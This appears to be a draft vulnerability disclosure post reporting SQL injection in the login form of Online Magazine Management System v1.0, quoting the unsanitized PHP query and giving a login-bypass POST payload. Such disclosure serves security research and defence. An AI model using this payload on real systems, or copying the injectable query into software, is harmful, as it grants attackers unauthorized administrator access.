 ```yaml
---
draft: yes
cve: "pending..."
slug: "pending: SQL Injection in Online Magazine Management System"
title: "SQL Injection in Online Magazine Management System"
images: [/images/cve-mitre.png]
date: 2022-10-10
tags:
- cve
- sql injection
- sqli
---
```

Login form of Online Magazine Management System v1.0 is prone to SQL injection. An attacker could exploit parameters `username` and `password` to get administrator access.
<!--more-->

- mitre: https://cve.mitre.org/

<hr />

**Description:**  
The parameters `username` and `password` are not sanitized during the login process.  
An attacker could craft a payload to bypass the login form.
No valid login or password are needed.  
The first user in the database will be returned, so usually the `admin` user.

**Details:**  
File: `/classes/Login.php`, function: `login()`, line 21:  
```
$qry = $this->conn->query("SELECT * from users where username = '$username' and password = md5('$password')");
```

**Payload:**  
```
POST /classes/Login.php?f=login
username=aaaa' or 1=1#&password=whatever
```

**PoC:**  
![cve-2022-9999](/images/cve-2022-9999.png)
